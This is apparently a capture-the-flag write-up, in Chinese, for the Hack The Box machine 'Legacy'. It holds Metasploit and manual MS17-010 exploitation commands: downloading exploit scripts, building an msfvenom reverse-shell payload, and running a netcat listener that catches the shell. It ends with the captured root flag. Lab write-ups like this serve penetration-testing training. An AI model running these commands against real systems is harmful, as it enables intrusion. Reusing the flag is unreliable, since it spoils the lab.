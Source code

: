 # Legacy

> victim: 10.10.10.4
>
> local: 10.10.14.19

## 扫描结果分析

### Light Scan

只有139和445

尝试一下ms17-010和ms08-067

## smb尝试

### ms17-010(msf)

#### 检测

```bash
msfconsole

use auxiliary/scanner/smb/smb_ms17_010
set rhost 10.10.10.4
run
```

检测可行

#### 攻击

```bash
use exploit/windows/smb/ms17_010_psexec
set rhost 10.10.10.4
set lhost 10.10.14.19
run
```

没法成功，可能是因为windows XP的原因，换手动或者08067吧

### ms17-010(manual)

```bash
proxychains4 wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
proxychains4 wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py -O mysmb.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4445 -f exe >a.exe
nc -lvvp 4445

python send_and_execute.py 10.10.10.4 a.exe
```

成功拿到shell

```bash
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

```
993442d258b0e0ec917cae9e695d5713
```

